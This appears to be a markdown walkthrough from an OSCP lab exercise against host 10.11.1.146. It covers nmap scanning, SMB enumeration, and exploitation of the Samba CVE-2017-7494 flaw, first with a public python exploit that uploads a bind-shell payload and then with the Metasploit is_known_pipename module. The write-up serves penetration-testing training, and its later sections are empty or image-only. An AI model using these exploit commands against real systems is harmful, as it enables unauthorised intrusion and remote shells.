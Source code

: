 # Susie OSCP Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fulloscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232694983-90eab4ce-ea30-4a6d-b8ad-f8e9afe06711.png)

``nmap -sC -sV -oA oscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695163-76739356-f0f6-420a-98cf-33bd6aff143f.png)

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695631-8e29419d-bf53-4f11-bec0-4cd6aa5cd75e.png)

``smbmap -H 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695874-07a4235a-607d-4730-b313-5136f43e7d8a.png)

``searchsploit samba 4.5``

![image](https://user-images.githubusercontent.com/123066149/232696138-d6553032-0abf-4d2e-937b-ee5394af245b.png)

# ${{\color{purple}Exploitation}}\ $

### I used this exploit for the exploitation part :

https://github.com/opsxcq/exploit-CVE-2017-7494

![image](https://user-images.githubusercontent.com/123066149/232697136-b2ea7ad6-e702-4de9-a38d-3dc459545b96.png)

### I used this ressource for help me :

https://redteamzone.com/EternalRed/

![image](https://user-images.githubusercontent.com/123066149/232698850-ba6d7f77-73ad-4714-bc60-166966e32a65.png)

### I userd ``libbindshell-samba.so`` it's a bind shell on port 6699 :
### Susishare is the name of the share and ``/SusieShare/libbindshell-samba.so`` is a path of the .so payload
### User and pass are not important because it's no authentification share 

``python2.7 exploit.py -t 10.11.1.146 -e libbindshell-samba.so -s SusieShare -r /SusieShare/libbindshell-samba.so -u grest -p guest -P 6699``

### I don't have a shell with this methode :

![image](https://user-images.githubusercontent.com/123066149/232699367-1215ef49-253a-4687-b874-395372d75ad1.png)

### After trying different methods change the payload change the path of the executable I did not succeed to exploit it manually.
### I used metasploit and noticed that it was using an internal path :

``search samba``

``use exploit/linux/samba/is_known_pipename``

`` set RHOSTS 10.11.1.146``

``exploit``

![image](https://user-images.githubusercontent.com/123066149/232703390-5da2ceae-d84c-415c-a787-b170ce0fb0f2.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/232703497-ab44b5f3-2e2c-4a5f-aef5-af4225a13910.png)

# ${{\color{purple}Points of Improvement}}\ $
